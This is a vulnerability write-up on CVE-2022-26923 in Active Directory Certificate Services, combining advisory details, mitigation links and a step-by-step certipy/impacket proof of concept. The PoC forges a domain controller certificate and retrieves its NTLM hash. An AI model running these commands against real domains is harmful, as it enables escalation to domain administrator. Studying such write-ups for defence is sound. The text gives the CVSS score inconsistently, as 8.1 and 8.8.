 # CVE-2022-26923 AD Certificate Services

* **Date of publication** : 10/05/2022  
* Attack complexity: Low
* Privileges required: Low
* **CVSS Score :** <span style='color:red;'>8.1</span>   


The vulnerability allowed a low-privileged user to escalate privileges to domain administrator in a default Active Directory environment with the Active Directory Certificate Services (AD CS) server role installed.

An exploit was developed by Oliver Lyak (ly4k_) in Python and was published before and not after the advisory. It is declared as proof-of-concept. The exploit is available for download at research.ifcr.dk.

**Source :**
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923
- https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
- https://vuldb.com/fr/?id.199368


## Description 
The newly revealed Active Directory Domain privilege escalation flaw hasn’t been yet exploited in the wild, still its high 8.8. CVSS score points to a high risk it poses to the compromised systems enabling attackers to abuse the certificate issues. CVE-2022–26923 allows manipulating the DnsHostName attribute, which specifies the computer name as it is registered in DNS, and then enables an adversary to obtain a certificate from the AD Certificate Services, potentially leading to elevation of privilege.

## POC

        - Username: user_test
        - Password: Password123#
        - Domain: my.domain.com
        
        To reproduce you must: 
        - Have impacket and certipy installed on the attacking machine.
          - https://github.com/SecureAuthCorp/impacket
          - https://github.com/ly4k/Certipy
        - Have compromised a user with low privilege. 
        - A system is vulnerable only if Active Directory Certificate Services is running on the domain.

1. Let's start by generating a certificate for our low privilege AD user (Username=user_test Password=Password123#) using the certificate template User : 
    ````
    certipy req 'my.domain.com/user_test:Password123#@hostname.my.domain.com' -ca MY-DOMAIN-HOSTNAME-CA -template User
    ````
    
2. Let's check that the certificate is valid and that it can be used for Kerberos authentication via Certipy :
    ````
    certipy auth -pfx user_test.pfx
    ````
    
3. Adding a virtual computer to the domain with Impacket
    ````
    addcomputer.py 'my.domain.com/user_test:Password123#' -method LDAPS -computer-name 'NEW_PC' -computer-pass 'Password123#'

    # my.domain.com/user_test:Password123# - We need to provide valid AD credentials in order to add a new computer.
    # method - The method of authentication. LDAPS will interface with the LDAP service on the domain controller.
    # computer-name - The name of our computer. This can be anything we like, as long as it is not the same as an existing computer object.
    # computer-pass - The password associated with our computer's machine account. We will need to impersonate this computer that we create, so make note of the password you chose here.
    ````  
    
4. Let's generate a certificate for the new computer we created. To use the machine account of said computer, you need to add a "$" at the end of the name:
    ````
    certipy req 'my.domain.com/NEW_PC$:Password123#@hostname.my.domain.com' -ca MY-DOMAIN-HOSTNAME-CA -template Machine
    ````
    
5. On the compromised machine, updating the DNS Hostname and SPN Attributes :
    ````
    PS C:\Users\user_test> Get-ADComputer NEW_PC -properties dnshostname,serviceprincipalname
    ````
    
6. Remove our current SPN attribute
    ````
    PS C:\Users\user_test> Set-ADComputer NEW_PC -ServicePrincipalName @{}
    ````
    
7. Try to set the DNS hostname attribute to that of the DC:
    ````
    PS C:\Users\user_test> Set-ADComputer NEW_PC -DnsHostName HOSTANME.my.domain.com
    ````
    
8. On the attacking machine, forging a Malicious Certificate
    ````
    certipy req 'my.domain.com/NEW_PC$:Password123#@hostname.my.domain.com' -ca MY-DOMAIN-HOSTNAME-CA -template Machine
    ````
    
9. Verify that this certificate is working and will return the NTLM hash
    ````
    certipy auth -pfx hostname.pfx
    ````
  
## Mitigations and Fixes

For CVE-2022–26923 mitigation and protective measures, Microsoft strongly recommends updating all servers that run AD Certificate Services and Windows domain controllers operating certificate-based authentication to the latest May 10 version. 

- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923
